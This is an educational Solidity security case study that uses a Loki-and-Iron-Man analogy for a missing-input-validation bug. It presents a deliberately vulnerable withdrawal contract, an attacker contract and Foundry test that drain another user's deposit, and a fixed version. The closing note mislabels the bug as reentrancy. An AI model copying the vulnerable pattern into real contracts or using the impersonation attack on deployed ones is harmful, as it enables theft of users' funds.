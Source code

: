 # Loki Impersonates Iron Man – Input Validation Exploit Case Study

## TL;DR

- **Vulnerability:** Missing input validation in `exitPortal()` → anyone can impersonate a validator/hero.  
- **Impact:** Loki tricks the Mirror Dimension into letting him withdraw funds while pretending to be Iron Man.  
- **Severity:** Critical.  
- **Fix:** Require proper identity/authentication (consensus proof, signatures) before allowing exits.  

---
Check out the live version of the website [live here](https://www.thesandf.xyz/posts/mcs/improper-input-validation/?ref=github).

## 🎬 Story Time

In the MCU, Doctor Strange protects the **Mirror Dimension**, where only trusted Avengers should pass through portals.  

But what if Strange fails to **check who’s walking out**?  

Enter **Loki**, the God of Mischief. If the portal only checks “is there an address?” instead of “is this really Iron Man?”, Loki can slip out disguised as Tony Stark and drain Stark’s treasure.  

This mirrors a real smart contract bug: missing **input validation** on withdrawal/exit functions.  

> *Fun fact: Loki doesn’t appear in **Doctor Strange (2016)**, but a post-credits scene shows Strange agreeing to help Thor search for Odin - with Loki tagging along. Loki’s impersonator skills make him the perfect metaphor here.*  

### All Files Available here.
::github{repo="thesandf/thesandf.xyz"}

---

## 📌 Vulnerable Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract MirrorDimensionPortal {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        require(msg.value > 0, "zero deposit");
        balances[msg.sender] += msg.value;
    }

    /// @notice Vulnerable exit function
    function exitPortal(address validator, uint256 amount) external {
        // Missing: require(msg.sender == validator)
        // Missing: consensus proof / signature verification
        require(amount > 0 && balances[validator] >= amount, "insufficient balance");

        balances[validator] -= amount;
        payable(msg.sender).transfer(amount);
    }
}
```
>[!WARNING]
Anyone can pass in `validator = IronMan` but call from `msg.sender = Loki`.  
The portal happily pays Loki.

---

##  Proof of Exploit

Attacker contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

import {MirrorDimensionPortal} from "./MirrorDimensionPortal.sol";

contract LokiAttack {
    MirrorDimensionPortal public portal;

    constructor(address _portal) {
        portal = MirrorDimensionPortal(_portal);
    }

    function impersonateIronMan(address ironMan, uint256 amount) external {
        portal.exitPortal(ironMan, amount);
    }

    receive() external payable {}
}
```

### Flow:
1. Iron Man deposits 100 ETH.  
2. Loki calls `exitPortal(IronMan, 100 ether)`.  
3. Contract doesn’t validate sender.  
4. Funds are sent to Loki.  

---

## Fixed Contract

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.24;

contract MirrorDimensionPortalFixed {
    mapping(address => uint256) public balances;

    function deposit() external payable {
        require(msg.value > 0, "zero deposit");
        balances[msg.sender] += msg.value;
    }

    function exitPortal(uint256 amount) external {
        require(amount > 0, "invalid amount");
        require(balances[msg.sender] >= amount, "insufficient balance");

        balances[msg.sender] -= amount;
        (bool sent,) = payable(msg.sender).call{value: amount}("");
        require(sent, "send failed");
    }
}
```

Fixes:  
- Only `msg.sender` can withdraw their own funds.  
- Stub for **validator proofs** or **signature-based authorization**.  
- Safer `.call` pattern for transfers.  

>[!NOTE]
Note: This demo uses `.call` for clarity and to show a realistic transfer. For production, prefer the pull-payment pattern and use `nonReentrant` + CEI. See `MirrorPortalPullPayment.sol` for a production-ready pattern.

---

##  Real-World Parallels

1. **Ethereum Validator Exit – \$41M Hack (2025)**  
   Missing validation in validator exits allowed unauthorized withdrawals.  
   👉 Loki pretending to be Iron Man.  
   [u.today report](https://u.today/ethereum-validator-exits-post-41-million-hack)  

2. **Improper Input Validation in DeFi**  
   Missing `require()` checks enable impersonation/unauthorized access.  
   👉 Doctor Strange forgetting to check the exit.  
   [Metana.io blog](https://metana.io/blog/improper-input-validation-in-smart-contracts/)  

---

## Auditor’s Checklist

- [ ] Validate ownership/signatures for addresses.  
- [ ] Require consensus proofs for validator exits.  
- [ ] Never let arbitrary addresses withdraw funds.  
- [ ] Simulate attacker contracts in tests.  

---

## Recommendations

- Always match `msg.sender` with the acting account.  
- Use **ECDSA signatures** or consensus proofs.  
- Prefer pull-payment patterns.  
- Include impersonation scenarios in test suites.  

---

## Test Snippet (Foundry)

```solidity
pragma solidity ^0.8.24;
import "forge-std/Test.sol";
import "../../src/Multiverse-Case-Studies/Improper-Input-Validation/MirrorDimensionPortal.sol";
import "../../src/Multiverse-Case-Studies/Improper-Input-Validation/LokiAttack.sol";

contract MirrorPortalTest is Test {
    MirrorDimensionPortal portal;
    LokiAttack loki;
    address ironMan = makeAddr("ironMan");
    address lokiAddr = makeAddr("loki");

    uint256 amount = 100 ether;

    function setUp() public {
        portal = new MirrorDimensionPortal();
        vm.deal(ironMan, amount);
        vm.startPrank(ironMan);
        portal.deposit{value: amount}();
        vm.stopPrank();
    }

    function testExploit() public {
        vm.startPrank(lokiAddr);
        loki = new LokiAttack(address(portal));
        loki.impersonateIronMan(ironMan, amount);
        vm.stopPrank();

        assertEq(address(loki).balance, amount, "Loki drained funds");
    }
}
```

Run locally:

```bash
forge test -vv
```

---

##  Closing Thought

Just like Loki slipping out of the Mirror Dimension disguised as Iron Man, attackers exploit **missing validation** to impersonate and steal.  

Doctor Strange’s lesson for Solidity devs:  
👉 **Always check who’s walking through your portal.**

> [!NOTE]
This repo is an **educational minimal reproduction** of reentrancy. The MCU analogy (Loki Impersonates Iron Man) makes the bug memorable, but the exploit reflects **real-world \$41M hacks**.


### All Files Available here.
::github{repo="thesandf/thesandf.xyz"}

---
